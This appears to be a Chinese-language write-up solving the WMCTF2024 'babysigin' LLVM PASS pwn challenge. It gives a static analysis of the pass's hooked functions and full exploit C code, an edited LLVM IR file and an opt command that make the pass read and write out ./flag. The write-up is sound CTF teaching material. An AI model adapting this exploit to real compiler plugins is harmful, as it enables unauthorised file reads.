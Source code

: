 # babysigin
> 题目地址：https://github.com/LxxxtSec/LLVM-PASS-Pwn/blob/main/challenge/WMCTF2024-babysigin/babysigin.zip
>

	首先我们拿到手的是`WMCTF.so`文件，IDA打开进行静态分析；

	既然这是一道LLVM PASS Pwn，我们首先需要知道做这种题目的时候是一个什么思路：

	首先找到`runOnFunction`是如何重写的，找到之后大致看下代码发现程序应该是调用四个函数，分别为`WMCTF_OPEN`，`;WMCTF_READ`，`WMCTF_MMAP`和`WMCTF_WRITE`。

## 静态分析
这一部分只会放部分分析代码，因为代码有点多。。。。

### WMCTF_OPEN
	首先是WMCTF_OPEN这个函数调用需要的字符串，即函数名；

![](https://berial123.oss-cn-beijing.aliyuncs.com/undefinedimage-20240914105649302.png)

	中间一部分是进行了一些对文件名及路径的判断，`LoadInst`典型是从上层函数或外部环境输入的。

![](https://berial123.oss-cn-beijing.aliyuncs.com/undefinedimage-20240914105822570.png)

	然后是调用父模块参数

![](https://berial123.oss-cn-beijing.aliyuncs.com/undefinedimage-20240914105901919.png)

### WMCTF_READ
![](https://berial123.oss-cn-beijing.aliyuncs.com/undefinedimage-20240914110010062.png)

	和OPEN部分差不多，获取第一个操作数之后转换为`llvm::ConstantInt`类型，并检查其是否为`0x6666`，若满足，就会读取文件0x40大小的内容分到`mmap_addr`处。

### WMCTF_MMAP
![](https://berial123.oss-cn-beijing.aliyuncs.com/undefinedimage-20240914110356185.png)

	同上，第一个操作数为`0x7890`，就会通过`mmap`函数来开辟一块内存给`mmap_addr`。

### WMCTF_WRITE
![](https://berial123.oss-cn-beijing.aliyuncs.com/undefinedimage-20240914110516912.png)

	检查第一个操作数是否为`llvm::LoadInst`类型，如果`LoadInst`的操作数为`llvm::GlobalVariable`，则判断其值是否为`0x8888`，满足这些条件会把`mmap_addr`的内容写到`&dword_0 + 1`，并根据操作结果输出成功或错误信息。

### 总结调用函数所需满足条件
+ WMCTF_OPEN：
    - 参数必须是上层函数传过来的，并有四个嵌套层次去检查参数；
+ WMCTF_READ:
    - 第一个操作数为`0x6666`；
+ WMCTF_MMAP:
    - 第一个操作数为`0x7890`；
+ WMCTF_WRITE:
    - 第一个操作数为`0x8888`,并且必须为全局变量。

## 解题
	`LLVM PASS Pwn`脚本编写分为三种语言，首先写C/C++代码用来利用漏洞，然后将其编译为`.ll`文件，最后用python导入后利用pwntools与题目进行交互。

### exp
	我们的C代码需要满足上文中的所有条件：

```plain
void WMCTF_OPEN(char *name);
void WMCTF_READ(int cmd);
void WMCTF_MMAP(int cmd);
void WMCTF_WRITE(int cmd);
char *filename = "./flag";
char *flag = "./flag";
int cmd = 0x8888;
void f0(char* name);
void f1(char* name);
void f2(char* name);
void f3(char* name);


void func0(char *name) {
        WMCTF_OPEN(filename);
}

void func1(char* name) {
        func0(filename);
}

void func2(char* name) {
        func1(filename);
}

void func3(char *name) {
        func2(filename);
}

void func4(char *name) {
        func3(flag);
}

void func5() {
        flag = "./flag";
        func4(flag);
}

void funcmain() {
    WMCTF_MMAP(0x7890);
    WMCTF_READ(0x6666);
    WMCTF_WRITE(cmd);
}
```

	OK，现在我们写了一个符合所有条件的C文件，现在需要给他编译成`.ll`文件：

```shell
clang-14 -emit-llvm -S main.c -o main.ll
```

	直接生成的文件需要修改，不然打不通：

![](https://berial123.oss-cn-beijing.aliyuncs.com/undefinedimage-20240914142406551.png)

	修改后`main.ll`内容：

```plain
; ModuleID = 'main.c'
source_filename = "main.c"
target datalayout = "e-m:e-p270:32:32-p271:32:32-p272:64:64-i64:64-f80:128-n8:16:32:64-S128"
target triple = "x86_64-pc-linux-gnu"

@.str = private unnamed_addr constant [7 x i8] c"./flag\00", align 1
@.addr = dso_local global i8* getelementptr inbounds ([7 x i8], [7 x i8]* @.str, i32 0, i32 0), align 8
@flag = dso_local global i8* getelementptr inbounds ([7 x i8], [7 x i8]* @.str, i32 0, i32 0), align 8
@cmd = dso_local global i32 34952, align 4

; Function Attrs: noinline nounwind optnone uwtable
define dso_local void @func0(i8* noundef %0) #0 {
  %2 = alloca i8*, align 8
  store i8* %0, i8** %2, align 8
  %3 = load i8*, i8** @.addr, align 8
  call void @WMCTF_OPEN(i8* noundef %3)
  ret void
}

declare void @WMCTF_OPEN(i8* noundef) #1

; Function Attrs: noinline nounwind optnone uwtable
define dso_local void @func1(i8* noundef %0) #0 {
  %2 = alloca i8*, align 8
  store i8* %0, i8** %2, align 8
  %3 = load i8*, i8** @.addr, align 8
  call void @func0(i8* noundef %3)
  ret void
}

; Function Attrs: noinline nounwind optnone uwtable
define dso_local void @func2(i8* noundef %0) #0 {
  %2 = alloca i8*, align 8
  store i8* %0, i8** %2, align 8
  %3 = load i8*, i8** @.addr, align 8
  call void @func1(i8* noundef %3)
  ret void
}

; Function Attrs: noinline nounwind optnone uwtable
define dso_local void @func3(i8* noundef %0) #0 {
  %2 = alloca i8*, align 8
  store i8* %0, i8** %2, align 8
  %3 = load i8*, i8** @.addr, align 8
  call void @func2(i8* noundef %3)
  ret void
}

; Function Attrs: noinline nounwind optnone uwtable
define dso_local void @func4(i8* noundef %0) #0 {
  %2 = alloca i8*, align 8
  store i8* %0, i8** %2, align 8
  %3 = load i8*, i8** @flag, align 8
  call void @func3(i8* noundef %3)
  ret void
}

; Function Attrs: noinline nounwind optnone uwtable
define dso_local void @func5() #0 {
  store i8* getelementptr inbounds ([7 x i8], [7 x i8]* @.str, i64 0, i64 0), i8** @flag, align 8
  %1 = load i8*, i8** @flag, align 8
  call void @func4(i8* noundef %1)
  ret void
}

; Function Attrs: noinline nounwind optnone uwtable
define dso_local void @funcmain() #0 {
  call void @WMCTF_MMAP(i32 noundef 30864)
  call void @WMCTF_READ(i32 noundef 26214)
  %1 = load i32, i32* @cmd, align 4
  call void @WMCTF_WRITE(i32 noundef %1)
  ret void
}

declare void @WMCTF_MMAP(i32 noundef) #1

declare void @WMCTF_READ(i32 noundef) #1

declare void @WMCTF_WRITE(i32 noundef) #1

attributes #0 = { noinline nounwind optnone uwtable "frame-pointer"="all" "min-legal-vector-width"="0" "no-trapping-math"="true" "stack-protector-buffer-size"="8" "target-cpu"="x86-64" "target-features"="+cx8,+fxsr,+mmx,+sse,+sse2,+x87" "tune-cpu"="generic" }
attributes #1 = { "frame-pointer"="all" "no-trapping-math"="true" "stack-protector-buffer-size"="8" "target-cpu"="x86-64" "target-features"="+cx8,+fxsr,+mmx,+sse,+sse2,+x87" "tune-cpu"="generic" }

!llvm.module.flags = !{!0, !1, !2, !3, !4}
!llvm.ident = !{!5}

!0 = !{i32 1, !"wchar_size", i32 4}
!1 = !{i32 7, !"PIC Level", i32 2}
!2 = !{i32 7, !"PIE Level", i32 2}
!3 = !{i32 7, !"uwtable", i32 1}
!4 = !{i32 7, !"frame-pointer", i32 2}
!5 = !{!"Ubuntu clang version 14.0.0-1ubuntu1.1"}
```

```plain
opt-14 -load ./WMCTF.so -WMCTF -enable-new-pm=0 ./main.ll
```

![](https://berial123.oss-cn-beijing.aliyuncs.com/undefinedimage-20240914142330542.png)

改完之后

![](https://berial123.oss-cn-beijing.aliyuncs.com/undefinedimage-20240914150504565.png)

